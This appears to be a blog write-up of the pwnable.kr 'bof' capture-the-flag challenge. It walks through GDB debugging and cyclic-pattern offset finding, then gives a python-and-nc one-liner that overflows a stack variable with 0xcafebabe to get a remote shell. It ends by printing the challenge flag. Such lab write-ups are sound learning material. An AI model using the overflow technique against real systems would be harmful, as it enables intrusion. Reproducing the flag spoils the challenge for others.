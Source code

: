After install GDB, I can finally debug the program:  

![image-20210203151452780](/assets/images/202102/image-20210203151452780.png)

Then I use `run` to start the program and try something random just to play with it.

![image-20210203151914488](/assets/images/202102/image-20210203151914488.png)

I take a look at the source code, I understand I need to set a breakpoint at the comparison to check the value in `key`.  (it's just partial code in the picture)

![image-20210203152416042](/assets/images/202102/image-20210203152416042.png)

Now run the program, I put a long string to overflow it:

![image-20210203153153702](/assets/images/202102/image-20210203153153702.png)

So, the key's value is replaced with `0xffffd180`, I tried again without overflow:

![image-20210203153222389](/assets/images/202102/image-20210203153222389.png)

Now I know the buffer overflow could work on this program. So, I use an online tool genrate a string(https://wiremask.eu/tools/buffer-overflow-pattern-generator/) which is very easy to use on buffer overflow. What I used here is `Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag`

I could use the string to find where is target place.

![image-20210203154029685](/assets/images/202102/image-20210203154029685.png)

I know it overflows the varibable at the start of `Ab` . Next is to find the content of variable `key`, then I know the place to overflow key's data. 

![image-20210203154931846](/assets/images/202102/image-20210203154931846.png)

I learned to print the key as a sequence of 4 characters on the class tutorial notes. 

Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6A|**KEY**|b7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

The bold words are where key is. Now I can set any value I want to key. 

So, the expoit string is `Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6A + \xbe\xba\xfe\xca`. 

Since it doesn't matter what content is in the overflow variable, so I replace the long string with one char `q`.

Now I have the overflow string, so I'll use a python script to help me input it:

```
(python -c "print 'q'*52 +'\xbe\xba\xfe\xca'"; cat) | nc pwnable.kr 9000
```

This pythin script will input the data to pwnable.kr's 9000 port. It's like running a local program `./bof`. The difference is piped the data to a remote server.  

![image-20210203162452643](/assets/images/202102/image-20210203162452643.png)

Finally, I have the user `col`'s  shell and use it to get the flag.

And the flag is `daddy, I just pwned a buFFer :)`

